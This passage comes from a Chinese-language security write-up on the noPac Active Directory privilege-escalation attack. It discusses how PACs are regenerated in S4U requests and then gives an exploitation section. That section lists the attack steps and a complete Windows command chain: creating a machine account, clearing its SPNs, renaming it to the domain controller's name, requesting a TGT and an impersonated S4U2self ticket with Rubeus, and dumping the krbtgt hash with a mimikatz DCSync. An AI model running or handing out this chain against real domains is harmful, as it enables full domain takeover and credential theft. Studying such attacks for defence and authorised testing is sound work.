 ​	所以这里`else if`中所做的处理应该是对应于非S4U的处理。

​	最后，也就是我上述所说的，并不是`TGS_REQ`中没有携带PAC然后去生成PAC，并且数据包中也确实存在PAC，而是正常的S4U请求就会重新生成对应模拟用户的PAC到Ticket中。

​	**`nopac`所指的应该是所模拟的账户是没有pac的应该要重新生成。**

​	我这一小节的叙述与别的文章有一些出入或存在错误之处，欢迎对这一小节进行讨论交流批评指正。

### 0x05 利用

​	需要对属性`sAMAccountName` and `servicePrincipalName`，具有写权限。说到机器账户，就可以利用域内默认的MAQ特性，默认允许域账户创建10个机器账户，而创建者对于机器账户具有写权限，当然可以更改这两个属性。

 查看MAQ是否有限制，查看LDAP中的`ms-ds-machineaccountquota`属性即可。

攻击流程：

1. 创建一个机器账户，这在之前的文章都有所提及，使用impacket的`addcomputer.py`或是`powermad`

   `addcomputer.py`是利用`SAMR协议`创建机器账户，这个方法所创建的机器账户没有SPN，所以可以不用清除

2. 清除机器账户的`servicePrincipalName`属性

3. 将机器账户的`sAMAccountName`，更改为DC的机器账户名字，注意后缀不带$

4. 为机器账户请求TGT

5. 将机器账户的`sAMAccountName`更改为其他名字，不与步骤3重复即可

6. 通过S4U2self协议向DC请求ST

7. DCsync

**通过用户账户利用的话，需要对用户账户有`GenericAll`的权限还有用户的凭据**

如果可以跨域创建机器账户或是有写权限的话，也可以利用此攻击进行跨域攻击。

##### Windows命令

```cmd
# 0. create a computer account
$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

# 1. clear its SPNs
Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

# 6. DCSync
(mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt 
```
